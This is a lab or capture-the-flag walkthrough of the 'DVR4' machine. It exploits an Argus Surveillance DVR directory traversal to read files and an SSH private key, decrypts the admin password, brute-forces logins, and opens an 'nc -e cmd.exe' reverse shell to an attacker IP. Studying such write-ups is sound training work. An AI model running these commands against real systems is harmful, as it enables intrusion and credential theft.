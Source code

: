 # DVR4

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:10 +08
Nmap scan report for 192.168.201.179
Host is up (0.17s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

SSH is open on this Windows machine, so let's take note of that.&#x20;

### Argus Surveillance --> LFI SSH Key

Port 8080 hosted an Argus Surveillance instance:

<figure><img src="../../../.gitbook/assets/image (1766).png" alt=""><figcaption></figcaption></figure>

There are quite a few exploits for this software:

```
$ searchsploit argus                         
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path         | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption      | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal       | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation      | windows_x86/local/45312.c
----------------------------------------------------------- ---------------------------------
```

The LFI one looks the easiest to exploit, and it involves using `curl`:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
{% endcode %}

It works, so now we just need to find out what to read. I know that SSH is open, so we should be looking for a SSH private key of some user. On the website, we can view the users to see 2:

<figure><img src="../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

`viewer` is one them, and we can try to read their private key:

```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAuuXhjQJhDjXBJkiIftPZng7N999zteWzSgthQ5fs9kOhbFzLQJ5J
Ybut0BIbPaUdOhNlQcuhAUZjaaMxnWLbDJgTETK8h162J81p9q6vR2zKpHu9Dhi1ksVyAP
<TRUNCATED>
```

Using this, we can `ssh` into the machine as `viewer`:

<figure><img src="../../../.gitbook/assets/image (3135).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Decryption --> SYSTEM Shell

I tested the LFI in reading the administrator flag, and it actually worked:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2FDesktop%2fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
<FLAG>
```
{% endcode %}

This means that the application is being run by the administrator instead of `viewer`. There were other exploits that we didn't use yet. I found that the Weak Password Encryption was one of them. This involved reading the password hash from the configuration files of Argus.&#x20;

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>type DVRParams.ini
<TRUNCATED>
LoginName0=Administrator
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8                                    
```

We can decrypt this hash easily using the script:

```
$ python3 50130.py 

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

The last character is unknown. When looking at the script, it doesn't seem to map special characters within the dictionary. In this case, we can create a wordlist of the special characters.&#x20;

```
$ cat /usr/share/seclists/Fuzzing/special-chars.txt > wordlist.txt
$ sed -i -e 's/^/14WatchD0g/' wordlist.txt
```

Afterwards, we can attempt to brute force the `ssh` access using `hydra`:

```
$ hydra -l administrator -P wordlist.txt 192.168.201.179 ssh
```

However, this didn't work for some reason, so maybe the administrator does not have SSH access. Instead, I brute forced the passwords one by one with `RunasCs.exe` to check which worked.&#x20;

Eventually one worked:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g# whoami                               
[-] RunasCsException: CreateProcessWithLogonW failed with 1326                               
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ whoami                               
dvr4\administrator
```

Great! Now we just need to get a reverse shell. The exploits earlier have the `x86` tag, meaning that this is a 32-bit Windows computer and we should be using `nc32.exe` for a reverse shell.

Then, we just need to execute it:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ "C:\Windows\Tasks\nc.exe -e cmd.exe 1
92.168.45.191 21"
```

<figure><img src="../../../.gitbook/assets/image (1092).png" alt=""><figcaption></figcaption></figure>
